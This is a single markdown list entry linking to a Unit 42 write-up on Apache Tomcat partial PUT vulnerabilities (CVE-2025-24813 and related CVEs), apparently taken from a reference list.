-   [Unit42: Apache Tomcat Partial PUT Vulnerabilities](https://unit42.paloaltonetworks.com/apache-cve-2025-24813-cve-2025-27636-cve-2025-29891/)
